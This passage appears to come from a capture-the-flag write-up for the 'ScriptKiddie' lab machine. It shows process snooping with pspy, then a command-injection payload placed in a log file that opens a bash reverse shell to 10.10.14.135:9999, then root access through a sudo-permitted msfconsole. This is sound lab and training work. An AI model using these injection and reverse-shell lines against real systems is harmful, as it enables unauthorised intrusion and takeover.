On the target machine:

```plaintext
kid@scriptkiddie:~$ wget http://10.10.14.135:8080/pspy64
kid@scriptkiddie:~$ chmod u+x pspy64
kid@scriptkiddie:~$ ./pspy64
```

If we go trigger the searchsploit security filter we can see this on pspy:

```plaintext
2021/02/08 21:30:37 CMD: UID=1001 PID=2221   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=1001 PID=2225   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=1001 PID=2226   | sh -c nmap --top-ports 10 -oN recon/10.10.14.135.nmap 10.10.14.135 2>&1 >/dev/null 
2021/02/08 21:30:37 CMD: UID=1001 PID=2228   | nmap --top-ports 10 -oN recon/10.10.14.135.nmap 10.10.14.135 
2021/02/08 21:30:37 CMD: UID=1001 PID=2231   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=1001 PID=2237   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=1001 PID=2236   | /bin/bash /home/pwn/scanlosers.sh 
2021/02/08 21:30:37 CMD: UID=0    PID=2238   | /lib/systemd/systemd-udevd 
2021/02/08 21:30:48 CMD: UID=0    PID=2239   | /usr/sbin/incrond 
2021/02/08 21:30:48 CMD: UID=1001 PID=2240   | sed -i s/open  /closed/g /home/pwn/recon/sed6xfScv 
2021/02/08 21:30:48 CMD: UID=0    PID=2241   | /bin/sh /sbin/dhclient-script 
2021/02/08 21:30:48 CMD: UID=???  PID=2243   | ???
```

1001 is the id of `pwn`, so we'll get a shell as pwn.

Let's craft a reverse shell payload and put it in place:

```plaintext
$ printf %s "cyfun cyfun ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.135/9999 0>&1' #" > /home/kid/logs/hackers
```

Note: respect the log format else the `cut` in the script will fails to parse

Once injected in `/home/pwn/scanlosers.sh` the command executed by pwn incron
job will be:

```plaintext
nmap --top-ports 10 -oN recon/ ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.135/9999 0>&1' #.nmap  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.135/9999 0>&1' # 2>&1 >/dev/null
```

Then we start a listener `pwncat -l 9999 -vv`.

## Privilege Escalation of Machine : from pwn to root

We can root `msfconsole` as root.

```plaintext
pwn@scriptkiddie:~$ sudo -l
Matching Defaults entries for pwn on scriptkiddie:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User pwn may run the following commands on scriptkiddie:
    (root) NOPASSWD: /opt/metasploit-framework-6.0.9/msfconsole
```

It will be EZ because we it's an interpretter where we can directly pass
system commands or open `irb` ruby interpreter.

```plaintext
msf6 > cat /root/root.txt
stty: 'standard input': Inappropriate ioctl for device
[*] exec: cat /root/root.txt

40aa*********************75f
```
